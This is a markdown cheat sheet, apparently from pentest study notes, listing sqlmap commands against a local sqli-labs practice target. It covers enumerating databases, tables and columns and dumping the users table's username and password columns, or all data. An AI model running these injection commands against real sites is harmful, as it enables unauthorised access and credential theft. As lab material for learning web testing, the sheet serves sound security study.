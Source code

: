 # SQLMap
- Below are the common options comes with SqlMap :
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 --current-user`
  - `--current-user` option is used to get the current database user.
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 --dbs`
  - `--dbs` is used to get the list of databases.
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 -D security --tables`
  - `-D database_name --tables` is used to get the list of tables present in database named **security**.
  -  `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 -D security -T users --dump`
  - `-D security -T users --dump` is used to dump data of table **users** of database **security**.
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 -D security -T users --columns`
  - `-D security -T users --columns` is  used to show of structure of columns.
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 -D security -T users -C "username, password" --dump`
  - `-D security -T users -C "username, password" --dump` is used to dump only specified columns mentioned with -C.
  - `python sqlmap.py --wizard`
  - `--wizard` switch invokes the interactive setup wizard wherre SQLMap asks for things in details, one by one, starting with the injection URL.
  - `python sqlmap.py -u http://localhost/sqli-labs/Less-1/?id=2 --dump-all`
  - `--dump-all` is used to dumps all the data present inside every single database accessible through the injection.
  

# Reference
- `Mastering Modern Web Penetration Testing` Book by `Prakhar Prasad`
